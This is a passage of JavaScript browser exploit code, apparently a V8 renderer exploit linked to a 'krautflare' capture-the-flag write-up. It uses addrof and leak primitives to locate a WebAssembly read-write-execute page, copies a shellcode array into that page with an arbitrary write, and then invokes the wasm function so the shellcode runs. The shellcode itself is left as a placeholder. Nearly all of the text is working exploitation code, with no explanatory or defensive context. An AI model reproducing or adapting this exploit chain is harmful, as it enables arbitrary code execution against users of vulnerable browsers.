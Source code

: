 ```javascript
        addr_high = (fti(shit[3])&0xffffffffffffn)<<8n;
        ret = (addr_high | addr_low); // function object address
        return ret;
    }

    /* https://www.jaybosamiya.com/blog/2019/01/02/krautflare/ */
    const wasm_simple = [0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x08, 0x02, 0x60, 0x01, 0x7f, 0x00, 0x60, 0x00, 0x00, 0x02, 0x19, 0x01, 0x07, 0x69, 0x6d, 0x70, 0x6f, 0x72, 0x74, 0x73, 0x0d, 0x69, 0x6d, 0x70, 0x6f, 0x72, 0x74, 0x65, 0x64, 0x5f, 0x66, 0x75, 0x6e, 0x63, 0x00, 0x00, 0x03, 0x02, 0x01, 0x01, 0x07, 0x11, 0x01, 0x0d, 0x65, 0x78, 0x70, 0x6f, 0x72, 0x74, 0x65, 0x64, 0x5f, 0x66, 0x75, 0x6e, 0x63, 0x00, 0x01, 0x0a, 0x08, 0x01, 0x06, 0x00, 0x41, 0x2a, 0x10, 0x00, 0x0b];
    
    let wasm_buffer = new ArrayBuffer(wasm_simple.length);
    const wasm_buf8 = new Uint8Array(wasm_buffer);
    for (var i = 0 ; i < wasm_simple.length ; ++i) {
        wasm_buf8[i] = wasm_simple[i];
    }

    let rwx_page_addr = undefined;

    var wasm_importObject = {
        imports: {
            imported_func: function(arg) {
                // wasm_function -> shared_info -> mapped_pointer -> start_of_rwx_space
                let a = addrof(wasm_func);
                a -= 1n;
                a += 0x18n;
                a = leak(a);
                a -= 0x109n;
                a = leak(a);
                rwx_page_addr = a;
                stages_after_wasm();
            }
        }
    };

    async function wasm_trigger() {
        let result = await WebAssembly.instantiate(wasm_buffer, wasm_importObject);
        return result;
    }

    let wasm_func = undefined;

    let shellcode = [
    // our shellcode in BigNumber array format
    // 0x9090909090909090n,
    // ....................
    ];

    wasm_trigger().then(r => {
        f = r.instance.exports.exported_func;
        wasm_func = f;
        f(); });

    function stages_after_wasm(){
        for (var i = 0 ; i < shellcode.length ; ++i ) {
            let a = rwx_page_addr + (BigInt(i) * 8n);
            write(a, shellcode[i]);
        }
        wasm_func();
    }
}

```
